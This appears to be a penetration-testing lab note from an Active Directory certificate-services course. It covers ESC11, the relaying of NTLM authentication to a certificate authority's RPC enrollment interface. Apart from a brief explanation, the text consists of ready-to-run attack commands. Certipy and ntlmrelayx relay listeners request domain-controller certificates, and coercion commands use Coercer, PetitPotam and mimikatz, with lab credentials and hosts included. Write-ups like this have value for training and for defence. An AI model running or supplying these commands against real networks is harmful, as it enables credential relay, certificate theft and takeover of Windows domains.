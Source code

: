## NTLM Relay ANY domain computer to AD CS ICertPassage Remote Protocol (ICPR) RPC Endpoints ##
#### What's running under the hood ####
- RPC endpoints support NTLM authentication. The ICertPassage Remote Protocol (ICPR) can be used to request certificates for Windows Client Certificate Enrollment.
- If the `IF_ENFORCEENCRYPTICERTREQUEST` flag is set on a CA (that is packet privacy is enabled), relaying using RPC will not be possible. This flag is set by default on Windows Server 2012 and higher.
- The flag may be removed for backward compatibility for older Windows clients.

#### What the attack is about ####
- This technique is similar to [[ESC8]] except that the attacker relays authentication over the RPC interface of the Certificate Authority instead of the HTTP one.

### Enumeration ###
1. **Certipy**
- Look if `Enforce Encryption for Requests` is set to `Disabled`.
```bash
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# certipy-esc11 find -u studentadmin@certbulk.cb.corp -p 'IW!LLAdministerStud3nts!' -stdout`
```

### Exploitation ###
##### 1. Listener for incoming certificates #####
1. **Certipy**
- By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.
- For domain controllers, we must specify `-template DomainController`.
```bash
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# certipy relay -ca cb-ca.cb.corp
```

2. **Impacket-NTLMRelayx**
```bash
┌──(impacket_esc11_venv)-(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS/impacket-esc11]
└─# /opt/Tools/impacket-esc11/examples/ntlmrelayx.py -t "rpc://cb-ca.cb.corp" -rpc-mode ICPR -icpr-ca-name "CB-CA" -smb2support --adcs --template 'DomainControllerAuthentication'
```

##### 2. Coercion ####
1. **Coercer** (useful if patches have been applied)
```bash
┌──(root💀0xDe4dBe3f)-[/home/pri3st/Pentesting/AlteredSecurity/CESP-ADCS]
└─# python3 Coercer.py coerce -l cb-ws33.certbulk.cb.corp -t cb-dc.certbulk.cb.corp -u student33 -p htTz2J72nH9KuAXr -d certbulk.cb.corp -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

2. **PetitPotam**
```powershell
PS C:\ADCS\Auditor> .\PetitPotam.exe 172.16.100.33 172.16.67.1
```

3. **PetitPotam.ps1**
```powershell
PS C:\ADCS\Auditor> Import-Module .\Invoke-Petitpotam.ps1
PS C:\ADCS\Auditor> Invoke-Petitpotam -Target 172.16.67.1 -CaptureHost 172.16.100.33
```

4. **Mimikatz**
```powershell
PS C:\ADCS\Auditor> .\mimikatz.exe "misc::efs /server:cb-dc.certbulk.cb.corp /connect:172.16.100.33"
```



